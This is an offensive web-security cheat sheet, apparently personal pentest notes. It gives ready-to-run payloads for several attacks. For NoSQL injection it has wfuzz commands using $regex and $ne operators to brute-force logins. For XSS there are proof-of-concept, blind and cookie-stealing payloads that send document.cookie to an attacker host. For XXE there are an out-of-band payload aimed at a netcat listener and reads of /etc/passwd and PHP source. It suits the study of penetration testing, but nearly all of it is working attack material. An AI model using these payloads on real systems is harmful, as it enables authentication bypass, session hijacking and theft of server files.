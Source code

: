 ```bash
echo 'a b c d e f g h i j k l m n o p q r s t u v w x y z A B C D E F G H I J K L M N O P Q R S T U V W X Y Z 0 1 2 3 4 5 6 7 8 9 ! " # \$ % & '"'"' \( \) \* \+ , - \. / : ; < = > \? @ \[ \\\\ \] \^ _ ` \{ \| \} ~' > nosqli_regex.txt # Regex special characters are escaped
sed 's/\s\+/\n/g' -i nosqli_regex.txt

wfuzz -c -z file,./nosqli_regex.txt -d '{"username": {"$regex": "^FUZZ.*"}, "password": {"$ne": null}}' -u <url>
wfuzz -c -z file,./nosqli_regex.txt -d '{"username": "<username>", "password": {"$regex": "^FUZZ.*"}}' -u <url>
```

## Cross site scripting _(XSS)_
- PoC:
```html
<script>alert(1)</script>
```
- Blind PoC:
```bash
python3 -m http.server 8888
```
```html
<script src=http://<my_ip>:8888></script>
```
- Cookie stealing:
```html
<script>document.write('<img src="<my_up>?c='+document.cookie+'" />');</script>
```
- Payloads and cheatsheets:
	- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
	- https://github.com/payloadbox/xss-payload-list

## XML external entity _(XXE)_
- PoC:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe "Vulnerable!!!"> ]>
<someTag>
	<someOtherTag>&xxe;</someOtherTag>
</someTag>
```
- Blind PoC:
```bash
sudo nc -lvnp 443
```
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://<ip>:443"> ]>
<someTag>
	<someOtherTag>&xxe;</someOtherTag>
</someTag>
```
- A simple payload to perform LFI attack:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<someTag>
    <someOtherTag>&xxe;</someOtherTag>
</someTag>
```
- A simple payload to perform LFI attack using php filters:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<someTag>
    <someOtherTag>&xxe;</someOtherTag>
```